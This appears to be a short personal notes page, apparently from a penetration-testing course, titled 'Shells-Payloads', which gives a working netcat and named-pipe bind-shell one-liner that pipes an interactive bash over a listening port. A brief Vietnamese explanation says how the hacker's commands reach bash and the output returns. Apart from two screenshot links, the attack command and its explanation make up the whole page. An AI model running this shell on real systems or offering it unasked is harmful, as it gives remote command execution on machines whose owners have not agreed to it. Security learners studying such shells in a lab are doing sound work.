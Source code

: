 # Shells-Payloads

#Bind Shells
![Screenshot 2025-05-07 234754](https://github.com/user-attachments/assets/e72cd611-7c62-451a-a837-84b6558b63a7)
>rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.110.99 7777 > /tmp/f

![Screenshot 2025-05-07 234738](https://github.com/user-attachments/assets/e28bdde1-70ee-4298-a93d-4d204fea17e0)

nc nhận lệnh từ máy hacker ghi nội dung vào /tmp/f 

cat /tmp/f đọc nội dung này gửi vào bash để thực thi

kết quả từ bash được gửi lại qua netcat và hacker nhận được

